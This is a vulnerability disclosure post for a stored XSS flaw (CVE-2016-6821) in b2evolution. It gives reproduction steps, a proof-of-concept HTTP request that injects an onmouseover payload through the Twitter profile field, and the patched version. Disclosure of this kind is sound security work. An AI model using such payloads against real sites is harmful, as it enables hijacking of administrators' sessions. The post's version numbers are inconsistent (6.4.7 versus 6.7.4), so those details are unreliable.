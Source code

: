 ```yaml
---
layout: post
title: B2evolution v6.4.7 XSS
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-09

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-09

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-6821

**Discription:**

b2evolution is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**Vulnerability:** 

There is stored XSS in b2evolution version 6.7.4
Any user can edit his or her twitter infomation at 'User Profile' with some evil code.
And when the admin see the user profile at back-office, the page is lack of filter to protect the admin.

Step 1 : Register a user of the web-site
Step 2 : Edit the twitter at http://192.168.204.128/b2evolution/index.php?disp=profile with something like https://twitter.com/kevino"onmouseover="alert(1)"onerror=1
Step 3 : Save the changes
Step 4 : The admin view the profile in back-office at http://192.168.204.128/b2evolution/admin.php?ctrl=users , when the mouse over the content, the XSS code runs.

**PoC Code:**

`code`
<pre><code>
POST /b2evolution/htsrv/profile_update.php HTTP/1.1
Host: 192.168.204.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.128/b2evolution/index.php?disp=profile
Cookie: session_b2evo_192_168_204_128=49_I0EnVHgDXBKjsJd0e8fEhK6Ga82xEGDt; __smToken=AhuNTZNC8BaMfAVQV7ZpTW5a; evo_style=Variation
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 653

edited_user_login=kevino&edited_user_firstname=kevino&edited_user_lastname=kevino&edited_user_nickname=kevino&edited_user_gender=M&edited_user_ctry_ID=&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=&edited_user_age_min=&edited_user_age_max=&organizations%5B%5D=&uf_38=kevino&uf_39=kevino&uf_40=kevino&uf_41=https%3A%2F%2Ftwitter.com%2Fkevino%22onmouseover%3D%22alert%281%29%22onerror%3D%221&uf_42=https%3A%2F%2Ffacebook.com%2Fkevino&uf_43=http%3A%2F%2Fkevino.net%2Fkevino&new_field_type=3&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=CQ7LjBDKmMin8zqBDl050nNEbmINmIGi&user_tab=profile&identity_form=1&user_ID=8&blog=1&orig_user_ID=8&12_3=456

</pre></code>

**Fix Code:**
Update to the version 6.7.5
https://github.com/b2evolution/b2evolution/commit/83c40129f471b659755491a02b2ad981995d37c1
